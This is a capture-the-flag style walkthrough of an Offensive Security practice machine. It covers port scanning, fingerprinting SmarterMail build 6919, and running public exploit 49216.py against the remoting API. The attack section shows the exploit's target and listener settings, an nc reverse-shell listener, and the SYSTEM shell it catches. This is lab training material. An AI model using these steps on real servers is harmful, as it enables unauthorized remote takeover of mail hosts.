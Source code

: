 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# discovery

Performing a full `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- -sV 192.168.162.65
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-08 14:26 EST
Nmap scan report for 192.168.162.65
Host is up (0.029s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
7680/tcp  open  tcpwrapped
9998/tcp  open  http          Microsoft IIS httpd 10.0
17001/tcp open  remoting      MS .NET Remoting services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 225.25 seconds
```

## smartermail
Different smartermail services are available on the machine
- 'normal' web interface on 9998
- `API` interface on port 17001
- `FTP` interface on port 21
- blank page on port 80

The smartermail version is exposed via the source code of the login page:
```javascript
...
<script>
		var htmlCacheBustQs = "cachebust=100.0.6919.30414.8d65fc3f1d47d00";
		var languageCacheBustQs = "cachebust=8d65fc3f1d47d00";
		var angularLangList = ['cs','da','de','en','en-GB','es','fa','fr','it','nl','pt','pt-BR','sv','tr','zh-CN','zh-HK','zh-TW'];
		var angularLangMap = {'cs': 'cs', 'da': 'da', 'de': 'de', 'en': 'en', 'en-GB': 'en-GB', 'es': 'es', 'fa': 'fa', 'fr': 'fr', 'it': 'it', 'nl': 'nl', 'pt': 'pt', 'pt-BR': 'pt-BR', 'sv': 'sv', 'tr': 'tr', 'zh-CN': 'zh-CN', 'zh-HK': 'zh-HK', 'zh-TW': 'zh-TW', 'cs*': 'cs', 'da*': 'da', 'de*': 'de', 'en*': 'en', 'es*': 'es', 'fa*': 'fa', 'fr*': 'fr', 'it*': 'it', 'nl*': 'nl', 'pt*': 'pt', 'sv*': 'sv', 'tr*': 'tr', 'zh*': 'zh-CN'};
		var angularLangNames = [{v:'cs',n:'čeština'},{v:'da',n:'dansk'},{v:'de',n:'Deutsch'},{v:'en',n:'English'},{v:'en-GB',n:'English (United Kingdom)'},{v:'es',n:'español'},{v:'fa',n:'فارسی'},{v:'fr',n:'français'},{v:'it',n:'italiano'},{v:'nl',n:'Nederlands'},{v:'pt',n:'português'},{v:'pt-BR',n:'português (Brasil)'},{v:'sv',n:'svenska'},{v:'tr',n:'Türkçe'},{v:'zh-CN',n:'中文(中国)'},{v:'zh-HK',n:'中文(香港特別行政區)'},{v:'zh-TW',n:'中文(台灣)'}];
		var cssVersion = "100.0.6919.30414.8d65fc3f1d47d00";
		var stProductVersion = "100.0.6919";
		var stProductBuild = "6919 (Dec 11, 2018)";
		var stSiteRoot = "/";
		var stThemeVersion = "100.0.6919.30414.8d65fc3f1d47d00";
		var debugMode = 0;

		function cachebust(url) {
			if (!url) return null;
			var separator = url.indexOf("?")==-1 ? "?" : "&";
			return url + separator + htmlCacheBustQs;
		}
	</script>
...
```
> Smartermail version 6919 (Dec 11, 2018)
{: .prompt-info }

---

# exploitation
## general
- `FTP` allows anonynmous login
- `log` files available on the server

## looking for smartermail exploits
```bash
$ searchsploit smartermail
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
SmarterMail 16 - Arbitrary File Upload                                                                                                          | multiple/webapps/48580.py
SmarterMail 7.1.3876 - Directory Traversal                                                                                                      | windows/remote/15048.txt
SmarterMail 7.3/7.4 - Multiple Vulnerabilities                                                                                                  | asp/webapps/16955.txt
SmarterMail 8.0 - Multiple Cross-Site Scripting Vulnerabilities                                                                                 | asp/webapps/16975.txt
SmarterMail < 7.2.3925 - LDAP Injection                                                                                                         | asp/webapps/15189.txt
SmarterMail < 7.2.3925 - Persistent Cross-Site Scripting                                                                                        | asp/webapps/15185.txt
SmarterMail Build 6985 - Remote Code Execution                                                                                                  | windows/remote/49216.py
SmarterMail Enterprise and Standard 11.x - Persistent Cross-Site Scripting                                                                      | asp/webapps/31017.php
smartermail free 9.2 - Persistent Cross-Site Scripting                                                                                          | windows/webapps/20362.py
SmarterTools SmarterMail 4.3 - 'Subject' HTML Injection                                                                                         | php/webapps/31240.txt
SmarterTools SmarterMail 5.0 - HTTP Request Handling Denial of Service                                                                          | windows/dos/31607.py
------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
> `smarterMail Build 6985 - Remote Code Execution`: `windows/remote/49216.py`
{: .prompt-info }

## configurate the exploit

This exploit abuses a vulnerability in the `API` on port 17001.

```python
...
HOST='192.168.187.65'
PORT=17001
LHOST='192.168.49.187'
LPORT=445
...
```

## exploit the server
### start listener on attacker machine
```bash
$ nc -nlvp 445
listening on [any] 445 ...
```

### execute the exploit
```bash
$ python3 49216.py
```

### catch connect from target server
```bash
nc -nlvp 445
listening on [any] 445 ...
connect to [192.168.49.187] from (UNKNOWN) [192.168.187.65] 49688
whoami
nt authority\system
PS C:\Windows\system32>
```

> Yes! We got a shell.
{: .prompt-info }

---

# post exploitation
## get the flag
```bash
PS C:\users\administrator\Desktop> type proof.txt
7******************************e
```

Pwned! <@:-)

